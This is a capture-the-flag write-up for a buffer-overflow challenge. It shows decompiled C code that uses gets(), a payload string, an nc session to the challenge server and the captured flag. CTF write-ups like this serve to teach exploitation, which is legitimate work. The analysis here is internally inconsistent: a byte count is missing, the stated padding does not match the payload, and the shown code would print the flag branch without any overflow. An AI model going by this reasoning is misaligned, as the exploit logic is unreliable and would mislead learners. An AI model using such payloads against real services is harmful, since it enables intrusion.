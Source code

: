 Challenge Description: 

The TV is supposed to be buffering. But it isn't doing that now. Strange.
Author: omelette_keychain

File(s) given: let-the-tv-buffer (ELF file)

1. Analyse the file with Ghidra. main() shows this:

```int main(void) {
    char local_68[70];
    char local_22[10];
    FILE *local_18;
    char *local_10;

    local_10 = "-3735928559";
    puts("The TV usually keeps buffering. It isn't doing that now for some reason. I dunno why :(");
    puts("I need to show my cool TV fixing skills for the upcoming science fair.");
    puts("I wonder what I can do to put it back to how it originally was... Any ideas? \nReply >> ");
    gets(local_22);

    if (strcmp(local_22, local_10) == 0) {
        puts("Hmm. It doesn't work. Nice try though! :)");
    } else {
        local_18 = fopen("flag.txt", "r");
        puts("The TV is back to buffering. Thanks!");
        puts("Wait. It is showing some sorta secret code...");

        if (local_18 == NULL) {
            printf("Error in opening the flag file. Flag file might be missing :(\n");
        }

        gets(local_68 + 0x3b); // potential buffer overflow vulnerability
        puts(local_68);
    }

    exit(0);
}```

2. We can see this suspicious line ```gets(local_68 + 0x3b);```
local_68 is a buffer with 70 bytes, and 0x3b is 59 in decimal. So ```gets(local_68 + 0x3b)``` starts writing at byte 59, leaving only 11 bytes until the end of the buffer.

However, gets() reads an entire line of user input without any size limit, meaning if the user enters more than 11 bytes, it will overwrite memory beyond local_68. So we can tell that this challenge is about **buffer overflow**!

```local_68:  [ 0 ............ 58 ][59 60 61 .... 69][overflow → ???]```
                      ^                ^
                   start          end of buffer

We also see that the condition for printing the flag is dependent on local_10 and local_22. local_10 already has a fixed value, but local_22 is just a buffer with 10 bytes. Hence we just need to make the strcmp() fail by corrupting local_22 to get the flag.

3. This means that we just need a payload that is at least bytes long (11 to fill up local_68, and the rest to corrupt local_22). For me, I used:
Payload: AAAAAAAAAABBBBBBBB
         ^         ^
        10A      8B (local_22)

It worked:
```└─$ nc 43.205.113.100 8370
    The TV usually keeps buffering. It isn't doing that now for some reason. I dunno why.
    I need to show my cool TV fixing skills for the upcoming science fair!
    I wonder what i can do to put it back to how it originally was... Any ideas? 
    Reply >> 
    AAAAAAAAAABBBBBBBB
    The TV is back to buffering! Thanks!
    ...wait. It is showing some sorta secret code.
    shaktictf{@nd_th@t's_h0w_th3_buff3r_0v3rfl0w3d_tv_c00k3d!}```
